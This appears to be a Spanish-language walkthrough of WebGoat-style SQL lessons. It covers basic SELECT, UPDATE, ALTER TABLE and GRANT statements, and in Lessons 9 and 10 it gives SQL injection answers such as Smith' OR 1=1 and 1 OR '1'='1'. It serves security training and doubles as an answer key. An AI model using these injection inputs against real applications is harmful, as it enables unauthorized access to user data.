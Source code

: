 # (A3) Injection

## Lesson 2

### Desarrollo

Debemos acceder al departamento del empleado "Bob Franco" mediante una consulta SQL.

Para poder realizar la consulta usaremos el comando `SELECT`:

```sql
SELECT columna FROM tabla WHERE condiciones

-- Ejemplo
SELECT * FROM employees WHERE userid='96134'
SELECT first_name FROM employees WHERE userid='96134'
SELECT department FROM employees WHERE first_name='Bob' AND last_name='Franco'
```

### Solución:

Para completar el ejercicio debemos ingresar el siguiente comando SQL:

```sql
SELECT department FROM employees WHERE userid='96134'
```

## Lesson 3

### Desarrollo

Debemos modificar el departamento del empleado "Bob Franco" mediante una consulta SQL a "Sales".

Para poder realizar la consulta usaremos el comando `UPDATE`:

```sql
UPDATE tabla SET columna='valor' WHERE condiciones

-- Ejemplo
UPDATE employees SET first_name = 'Mario' WHERE userid='96134'
```

### Solución:

Para completar el ejercicio debemos ingresar el siguiente comando SQL:

```sql
UPDATE employees SET department='Sales' WHERE userid=96134
```

## Lesson 4

Debemos añadir una columna "phone(varchar(20))" a la tabla "employees".

Para poder realizar la consulta usaremos el comando `ALTER TABLE`:

```sql
ALTER TABLE tabla ADD columna tipo

-- Ejemplo
ALTER TABLE employees ADD hobby varchar(20)
```

### Solución:

Para completar el ejercicio debemos ingresar el siguiente comando SQL:

```sql
ALTER TABLE employees ADD phone varchar(20)
```

## Lesson 5

### Desarrollo

Debemos dar permisos al usuario "unauthorized_user" en la tabla "grant_rigths".

Para poder realizar la consulta usaremos el comando `GRANT`:

```sql
GRANT privilegio ON obj TO usuario
```

Donde:

- `privilegio`: Es el permiso que se desea otorgar. Puede ser `SELECT`, `INSERT`, `UPDATE`, `DELETE`, `ALL`.
- `obj`: Es el objeto al que se le otorga el permiso. Puede ser una tabla, vista, procedimiento almacenado, etc.
- `usuario`: Es el usuario al que se le otorga el permiso.

### Solución:

Para completar el ejercicio debemos ingresar el siguiente comando SQL:

```sql
GRANT SELECT ON grant_rigths TO unauthorized_user
```

## Lesson 9

### Desarrollo

Debemos acceder a la información de la tabla de usuarios seleccionando las opciones correctas para completar la consulta SQL inyectada.

La sentencia SQL original es la siguiente:

```sql
"SELECT * FROM user_data WHERE first_name = 'John' AND last_name = '" + lastName + "'";
```

### Solución

Para completar el ejercicio debemos seleccionar las siguientes opciones:

- `Smith'`
- `OR`
- `1=1`

De esta forma, la consulta SQL inyectada sería:

```sql
SELECT * FROM user_data WHERE last_name='Smith' OR 1=1
```


## Lesson 10

### Desarrollo

Debemos acceder a la información de la tabla de usuarios.

Tenemos disponibles dos inputs de texto, uno para `Login_Count` y otro para `User_Id`.

### Solución

Para completar el ejercicio debemos ingresar `1` o cualquier otro valor en el campo `Login_Count` y `1 OR '1'='1'` en el campo `User_Id`.

De esta forma, la consulta SQL inyectada sería:

```sql
SELECT * FROM user_data WHERE Login_Count=1 OR '1'='1'
```
